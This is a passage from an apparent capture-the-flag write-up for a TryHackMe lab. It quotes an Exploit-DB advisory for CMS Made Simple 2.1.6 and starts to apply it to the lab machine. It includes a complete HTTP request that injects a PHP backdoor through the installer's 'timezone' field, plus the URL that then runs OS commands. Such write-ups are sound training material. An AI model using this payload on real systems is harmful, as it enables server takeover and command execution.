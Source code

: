 **Hmm... Let's look at the Remote Code Execution, `44192.txt`.**
```
1.Description
Arbitrary PHP code can be injected into configuration file (config.php) after installation has been finished. In order to inject PHP code, fresh install and valid database credentials is required. Application will force an installer (usually "www-data" due to web-based installation) to set a write permission (777) to destination directory and related installation file. An attacker will proceed installation process until reach step 4 and inject malicious PHP code into "timezone" parameter. Once PHP code has been injected to "config.php", an attacker will be able to execute OS command by accessing backdoor "config.php" file along with injected parameter which contain OS command value.

2.Proof of Concept
- Access to "http://target/path/cmsms-2.1.6-install.php" for installing CMS Made Simple
- Proceed to step 4 of installation which is database setup stage, enter a valid database credentials and modifying "timezone" parameter on intercepted proxy as following:

==========
POST /cms/cmsms-2.1.6-install.php/index.php?mdf68c24c=4 HTTP/1.1
Host: 192.168.5.196
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101
Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.5.196/cms/cmsms-2.1.6-install.php/index.
php?mdf68c24c=4
Cookie: CMSICc861538bbb=i549m59qpme0u9klupbkb68me4
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 126

dbhost=localhost&dbname=cms&dbuser=xvwa&dbpass=xvwa&
timezone=junk';echo%20system($_GET['cmd']);$junk='junk&next=Next+%E2%86%92
==========

- Forward tampered "timezone" parameter packet and proceed to next step until successfully installation.
- Execute OS command via "config.php" by requesting " http://target/path/config.php?cmd=id;uname"
```

Hmm... **The `timezone` parameter in the installation PHP page is vulnerable to command injection!**

Let's go to `http://toc2.thm/cmsms/cmsms-2.1.6-install.php/index.php` to exploit it!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124031902.png)

We can click `Next`, until we're at **step 4**:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/toc2/images/Pasted%20image%2020221124032030.png)

**Now, let's intercept the POST request via Burp Suite, and modify the `timezone` parameter!**
